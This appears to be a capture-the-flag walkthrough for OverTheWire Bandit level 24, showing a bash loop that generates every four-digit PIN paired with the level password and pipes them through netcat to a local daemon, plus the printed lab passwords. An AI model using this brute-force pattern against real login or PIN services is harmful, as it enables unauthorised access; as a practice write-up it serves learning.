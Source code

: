 # Level 24

A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

## Solution

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
bandit24@bandit:~$ mkdir /tmp/dir
bandit24@bandit:~$ cd /tmp/dir
bandit24@bandit:/tmp/dir$ nano script.sh
```

I then needed to create a dictionary. This dictionary would have the current password + a 4 digit code. Since we do not know the 4 digit code, we need to print all possible variations.

```bash

#!/bin/bash
passwd="UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ"

for a in {0..9}
do
        for b in {0..9}
        do
                for c in {0..9}
                do
                        for d in {0..9}
                        do
                                echo $passwd $a$b$c$d >> dictionary.txt
                        done
                done
        done
done

```

Then I will need to run the script:

```bash
bandit24@bandit:/tmp/dir$ chmod 777 script.sh
bandit24@bandit:/tmp/dir$ ./script.sh
bandit24@bandit:/tmp/dir$ cat dictionary.txt
```

Returns a large file with all possible combinations:
```bash
...
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9957
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9958
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9959
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9960
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9961
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9962
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9963
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9964
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9965
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9966
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9967
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9968
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9969
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ 9970
...
```

We then need to use netcat on port `30002` and pipe in the `dictionary.txt`:

```bash
bandit24@bandit:/tmp/dir$ cat dictionary.txt | nc localhost 30002 >> password.txt
```

Seeing as our password file will have many incorrect entries, we should sort it.

```bash
bandit24@bandit:/tmp/pppp$ sort -u password.txt

Correct!
Exiting.
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG
Wrong! Please enter the correct pincode. Try again.
```
